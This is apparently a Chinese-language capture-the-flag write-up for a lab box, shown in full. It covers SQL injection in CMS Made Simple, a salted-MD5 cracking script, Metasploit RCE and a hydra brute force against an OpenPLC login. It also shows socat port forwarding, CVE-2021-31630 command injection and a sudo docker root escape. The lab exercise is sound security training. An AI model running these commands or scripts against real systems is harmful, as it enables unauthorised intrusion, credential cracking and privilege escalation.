## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Medium |

## Nmap

```
[root@kali] /home/kali/Entropy  
❯ nmap 192.168.56.117 -sV -A -p- 

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u5 (protocol 2.0)
| ssh-hostkey: 
|   256 cc:05:ab:8c:ea:28:eb:b1:9d:da:8c:ce:65:ee:63:43 (ECDSA)
|_  256 3f:9f:0a:7d:61:f8:6f:4b:46:01:c4:db:74:b2:b6:a7 (ED25519)
80/tcp open  http    Apache httpd 2.4.62 ((Debian))
|_http-server-header: Apache/2.4.62 (Debian)
|_http-title: Apache2 Debian Default Page: It works
```

目录扫描没有任何结果，在**apache**默认页中发现路径



## SQL Injection

进入之后查看到当前版本是：**2.2.9.1**



查找一下漏洞刚好有，不过这个脚本是**python2**写的，还是去找找网上的。



- [Azrenom/CMS-Made-Simple-2.2.9-CVE-2019-9053](https://github.com/Azrenom/CMS-Made-Simple-2.2.9-CVE-2019-9053)



由于密码是**MD5**加密的，而且已经有盐值了，尝试解密一下。

注意！！！！！！！！！！

这里有个坑，就是密码不在**rockyou.txt**中。比较粗暴的方法就是，把所有密码字典整合到一个里面进行跑。



上图应该是我之前在**Github**上找的字典。整合可以让**AI**给出代码，这里我就不写了。

```
import hashlib

# 目标哈希值和盐
target_hash = "7c21f3b3cace708d3e270b44dd40d522"  # 你提取到的哈希
salt = "711c5b8581584acc"  # 你提取到的盐
wordlist_path = "/usr/share/SecLists/Passwords/clean_passwords.txt"  # 本地密码字典路径

def crack_md5_hash(target_hash, salt, wordlist_path):
    try:
        with open(wordlist_path, "r", encoding="latin-1") as file:
            for password in file:
                password = password.strip()
                salted_password = salt+ password  # CMS Made Simple 使用 "密码+盐" 方式
                hashed_password = hashlib.md5(salted_password.encode()).hexdigest()
                
                if hashed_password == target_hash:
                    print(f"[+] 密码破解成功！密码是: {password}")
                    return
                
        print("[-] 未能找到匹配的密码，请尝试更大的字典。")
    
    except FileNotFoundError:
        print(f"[-] 无法找到字典文件: {wordlist_path}")
    except Exception as e:
        print(f"[-] 发生错误: {e}")

# 执行破解
crack_md5_hash(target_hash, salt, wordlist_path)
```



## Gobuster

这个时候尝试寻找登录点，发现**admin**路由

```
[root@kali] /home/kali/Entropy  
❯ gobuster dir -u http://192.168.56.117/cmsms -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -t 50 -x php
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.56.117/cmsms
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/modules              (Status: 301) [Size: 324] [--> http://192.168.56.117/cmsms/modules/]
/uploads              (Status: 301) [Size: 324] [--> http://192.168.56.117/cmsms/uploads/]
/index.php            (Status: 200) [Size: 20019]
/doc                  (Status: 301) [Size: 320] [--> http://192.168.56.117/cmsms/doc/]
/admin                (Status: 301) [Size: 322] [--> http://192.168.56.117/cmsms/admin/]
/assets               (Status: 301) [Size: 323] [--> http://192.168.56.117/cmsms/assets/]
/.php                 (Status: 403) [Size: 279]
/lib                  (Status: 301) [Size: 320] [--> http://192.168.56.117/cmsms/lib/]
/config.php           (Status: 200) [Size: 0]
/tmp                  (Status: 301) [Size: 320] [--> http://192.168.56.117/cmsms/tmp/]
/.php                 (Status: 403) [Size: 279]
Progress: 2547664 / 2547666 (100.00%)
===============================================================
Finished
===============================================================
```

登录进去后发现，可以上传模块



## RCE to www-data

- [CMS Made Simple Authenticated RCE via object injection](https://www.rapid7.com/db/modules/exploit/multi/http/cmsms_object_injection_rce/)



成功接收到反弹**Shell**



## Hydra

查看**config.php**

```
meterpreter > cat config.php
<?php
# CMS Made Simple Configuration File
# Documentation: https://docs.cmsmadesimple.org/configuration/config-file/config-reference
#
$config['dbms'] = 'mysqli';
$config['db_hostname'] = 'localhost';
$config['db_username'] = 'cmsuser';
$config['db_password'] = '!@$john!@$';
$config['db_name'] = 'cmsms';
$config['db_prefix'] = 'cms_';
$config['timezone'] = 'America/New_York';
```

由于只能通过密钥登录，这里拿到也没什么用，上**linpeas**！！

注意到内网端口**8080**是开放的



查看进程发现是**support**用户在运行，这里应该是入手点



上传一个**socat**，将端口转发出来

```
./socat TCP-LISTEN:9090,reuseaddr,fork TCP:127.0.0.1:8080  &
```

可以看到是一个登录页面，之前的用户在这里无法登录



经过搜索，得到默认账户是**openplc**，但是密码已经被修改过了



这里使用**hydra**进行爆破，得到密码是**bubbles**

```
[root@kali] /home/kali/Entropy  
❯ hydra -l openplc -P /usr/share/wordlists/rockyou.txt -s 9090 192.168.56.117 http-post-form "/login:username=^USER^&password=^PASS^:F=Bad credentials! Try again" -I

Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-03-12 22:09:55
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344400 login tries (l:1/p:14344400), ~896525 tries per task
[DATA] attacking http-post-form://192.168.56.117:9090/login:username=^USER^&password=^PASS^:F=Bad credentials! Try again
[9090][http-post-form] host: 192.168.56.117   login: openplc   password: bubbles
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-03-12 22:09:57
```

## RCE to user

- [thewhiteh4t/cve-2021-31630: Python script for exploiting command injection in Open PLC Webserver v3](https://github.com/thewhiteh4t/cve-2021-31630)





写入公钥之后，可以进行**ssh**登录，拿到**user.txt**



## Root

查看到留言

```
support@debian:~/Desktop$ cat note.txt 
Subject: Important: Password Change Notification

Dear Support,

For security reasons, I have changed your password to this "ap580903" plus the year your were born! Please make sure to update it as soon as possible.

If you experience any issues or need assistance, feel free to reach out.

Best,  
System Administrator
```

发现密码是**ap580903**加上一个年份，上传**suForce**，得到密码是：**ap5809031995**



查看特殊命令

```
support@debian:~$ sudo -l
[sudo] password for support: 
Matching Defaults entries for support on debian:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty, timestamp_timeout=1

User support may run the following commands on debian:
    (ALL) /usr/bin/docker
```

- [docker | GTFOBins](https://gtfobins.github.io/gtfobins/docker/#sudo)

查看一下容器



```
sudo /usr/bin/docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```



## Summary

`User`：**SQL**注入拿到**www-data**权限，发现**support**用户有服务运行在内网，转发内网端口，通过[cve-2021-31630](https://github.com/thewhiteh4t/cve-2021-31630)反弹**shell**，拿到**support**用户。

`Root`：根据留言得到密码逻辑，爆破后通过**sudo docker**拿到**root.txt**。
